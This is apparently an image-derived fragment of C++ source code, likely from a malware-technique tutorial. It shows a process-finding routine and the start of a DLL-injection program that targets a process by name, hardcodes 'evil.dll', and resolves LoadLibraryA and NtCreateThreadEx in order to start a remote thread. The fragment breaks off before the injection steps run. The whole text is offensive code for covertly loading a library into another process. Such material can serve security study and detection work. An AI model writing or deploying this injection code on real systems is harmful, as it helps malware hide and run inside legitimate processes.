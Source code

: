 ```cpp
  OUT PVOID lpBytesBuffer
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  SIZE_T rl; // return length

  char evilDll[] = "evil.dll";
  int evilLen = sizeof(evilDll) + 1;
  
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  LPTHREAD_START_ROUTINE lb = 
  (LPTHREAD_START_ROUTINE) GetProcAddress(
    hKernel32, "LoadLibraryA");
  pNtCreateThreadEx ntCTEx = (pNtCreateThreadEx)GetProcAddress(
    GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
  
  if (ntCTEx == NULL) {
    CloseHandle(ph);
    printf("NtCreateThreadEx failed :( exiting...\n");
    return -2;
  }

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
```